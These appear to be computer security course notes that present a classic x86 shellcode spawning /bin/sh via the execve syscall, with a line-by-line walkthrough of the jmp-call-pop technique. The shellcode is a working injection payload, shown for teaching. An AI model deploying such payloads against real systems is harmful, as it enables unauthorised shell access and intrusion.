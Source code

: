 x86 shellcode from Computer Security

```asm
1.      jmp     end
2.      start:
3.      pop     esi
4.      mov     DWORD PTR [esi+0x8], esi
5.      xor     eax, eax
6.      mov     BYTE PTR [esi+0x7], al
7.      mov     DWORD PTR [esi+0xc], eax
8.      mov     al, 0xb
9.      mov     ebx, esi
10.     lea     ecx, [esi + 0x8]
11.     lea     edx, [esi + 0xc]
12.     int     0x80
13.     end:
14.     call    start 
15.     .string "/bin/sh"
```

Execution:

1.  Jump to the _end_ label
14. Call the _start_ label, this will push the **eip** on the stack, saving the address of line 15 (location of "/bin/sh")
3. Pop the top of the stack (address of "/bin/sh") onto the **esi** register.
4. Store the contents of **esi** on the address in memory **esi**+0x8 (that is 8 bytes after the start of "/bin/sh")
    A proper "/bin/sh" string is 8 bytes long, 7 characters plus the null terminator.
    So the address pointing to the start of the "/bin/sh" string will be just after the end of the proper string.
5. Zero out the **eax** register
6. Store the contents of **al** (lower byte of **eax**, so 0x00) on **esi**+0x7, this sets the null terminator for the "/bin/sh" string.
    We cannot be sure that the "/bin/sh" string was properly null terminated so we make sure to set the last byte to 0x00.
7. Store the contents of **eax** (0x00000000) to the address **esi**+0xc, that is exactly at the end of the of the pointer to "/bin/sh" we saved in line 4.
8. Move 0xb to **al** (lower byte of **eax**). Now **eax** = 0x0000000b
9. Move **esi** to **ebx**. **ebx** now contains a pointer to a proper "/bin/sh" string. So **ebx** = "/bin/sh"
10. Move the address **esi**+0x8 to **ecx**. **ecx** now contains a pointer to a pointer to "/bin/sh", the next pointer over (**esi**+0c) is NULL. So ***exc** = { "/bin/sh", NULL }
11. Move the address **esi**+0xc to **edx**. **edx** now contains a pointer to a null pointer. So ***edx** = { NULL }.
12. Perform a syscall.
    **eax** = 0xb. The syscall to perform is *execve*
    execve(const char *name (**ebx**), const char *const *argv (**ecx**), const char *const *envp (**edx**))
    **ebx** = "/bin/sh"
    ***exc** = { "/bin/sh", NULL }
    ***edx** = { NULL }

